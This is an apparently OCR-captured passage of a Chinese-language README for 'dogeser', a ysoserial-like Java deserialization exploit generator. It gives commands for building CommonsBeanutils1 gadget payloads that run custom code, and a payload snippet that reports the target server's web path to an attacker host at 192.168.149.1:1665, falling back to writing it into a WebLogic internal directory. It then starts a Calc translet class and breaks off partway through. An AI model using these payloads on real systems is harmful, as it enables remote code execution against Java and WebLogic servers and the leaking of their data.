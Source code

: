 
三个命令使用方法参考，codefile:是code比较多的时候。
```http
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 code:calc


```
```http
String HOST = "http://192.168.149.1:1665";
String WEB_PATH = System.getProperty("user.dir");

String str_url = HOST + "/?info=" + WEB_PATH;
try{
    //若目标能访问我们的服务器，则发送信息到服务器上
    java.net.URL url = new java.net.URL(str_url);
    java.net.URLConnection conn = url.openConnection();
    conn.connect();
    conn.getContent();
}catch(Exception e){
    //若目标不能访问我们的服务器，则将信息写到自己的web目录下info.log文件中
    String webPath = WEB_PATH + "/servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/info.log";
    try {
        java.io.FileOutputStream f1 = new java.io.FileOutputStream(webPath);
        f1.write(WEB_PATH.getBytes());
        f1.close();
    } catch (Exception e1) {
        e1.printStackTrace();
    }
}
```
```http
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 codefile:Calc.java
```


[案例](https://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/#0x04-%E6%A1%88%E4%BE%8B)


#### classfile：
类需要继承AbstractTranslet 
需要区分xalan\xalan\2.7.2\xalan-2.7.2.jar!\org\apache\xalan\xsltc\runtime\AbstractTranslet.class
这里需要的是**jdk内置的AbstractTranslet**
```java

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

/**
 * @ClassName: Calc
 * @Description: TODO
 * @Author: Summer
 * @Date: 2021/9/10 16:16
 * @Version: v1.0.0
 * @Description:
 **/
public class Calc extends AbstractTranslet {
    public  Calc() {}

    @Override
```